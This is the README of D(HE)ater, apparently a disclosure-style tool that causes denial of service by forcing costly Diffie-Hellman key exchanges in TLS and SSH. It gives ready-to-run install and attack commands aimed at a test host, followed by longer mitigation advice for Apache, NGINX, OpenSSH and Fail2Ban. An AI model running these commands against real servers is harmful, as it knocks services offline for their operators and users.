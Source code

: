 # D(HE)ater

D(HE)ater is an attacking tool based on CPU heating in that it forces the ephemeral variant of
[Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) (DHE) in given
cryptography protocols (e.g. TLS, SSH). It is performed without calculating a cryptographically correct ephemeral key on
the client side, but with a significant amount of calculation on the server side. Based on this, D(HE)ater can initiate 
a [denial-of-service (DoS) attack](https://en.wikipedia.org/wiki/Denial-of-service_attack).

## Quick start

D(HE)ater can be installed directly via [pip](https://pip.pypa.io/en/stable/) from
[PyPi](https://pypi.org/project/dheater/)

```console
pip install dheater
dheat --protocol tls ecc256.badssl.com
dheat --protocol ssh ecc256.badssl.com
```

or can be used via [Docker](https://www.docker.com/) from
[Docker Hub](https://hub.docker.com/repository/docker/balasys/dheater)

```console
docker pull balasys/dheater
docker run --tty --rm balasys/dheater --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --protocol ssh ecc256.badssl.com
```

You can increase load by string extra threads.

```console
dheat --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --thread-num 4 --protocol tls ecc256.badssl.com
docker run --tty --rm balasys/dheater --thread-num 4 --protocol ssh ecc256.badssl.com
```

## Mitigation

### Configuration

Diffie-Hellman (DHE) key exchange should be disabled.

#### TLS

##### Apache

```
SSLCipherSuite ...:!kDHE
```

##### NGINX

```
ssl_ciphers ...:!kDHE;
```

##### Others

See [moz://a SSL Configuration Generator](https://ssl-config.mozilla.org/) for configuration syntax.

### SSH

##### OpenSSH

```
KexAlgorithms -diffie-hellman-group1-sha1,diffie-hellman-group1-sha256,diffie-hellman-group14-sha1,diffie-hellman-group14-sha256,diffie-hellman-group15-sha256,diffie-hellman-group15-sha512,diffie-hellman-group16-sha256,diffie-hellman-group16-sha512,diffie-hellman-group17-sha512,diffie-hellman-group18-sha512,diffie-hellman-group-exchange-sha1,diffie-hellman-group-exchange-sha256,diffie-hellman-group-exchange-sha512
```

### Fail2Ban

#### TLS

##### Apache

There are no relevant filters.

1. `apache-ssl.conf` in `fail2ban` directory should be copied to the `filter.d` directory under the fail2ban configuration
    directory
1. the followings should be added to the `jail.local` file in the fail2ban configuration directory

    ```ini
    [apache-ssl]

    port    = https
    logpath = %(apache_error_log)s
    maxretry = 1
    ```

##### Postfix

There is a relevant filter, but it is applied only in ddos mode. The followings should be added to `jail.local`.

```ini
[postfix]
mode = ddos
```

##### Dovecot

There is a relevant filter, but it is applied only in ddos mode. The followings should be added to `jail.local`.

```ini
[dovecot]
mode = aggressive
```

or a specific filter can be used without changing the mode of dovecot.

1. `dovecot-ssl.conf` in `fail2ban` directory should be copied to the `filter.d` directory under the fail2ban configuration
    directory
1. the followings should be added to `jail.local` in tge fail2ban configuration directory

    ```ini
    [dovecot-ssl]

    port    = pop3,pop3s,imap,imaps,submission,465,sieve
    logpath = %(dovecot_log)s
    backend = %(dovecot_backend)s
    maxretry = 1
    ```

#### SSH

##### OpenSSH

There is a relevant filter, but it is applied only in ddos mode. The followings should be added to `jail.local`.

```ini
[sshd]
mode = ddos
```

## License

The code is available under the terms of Apache License Version 2.0. 
A non-comprehensive, but straightforward description and also the full license text can be found at 
[Choose an open source license](https://choosealicense.com/licenses/apache-2.0/) website.
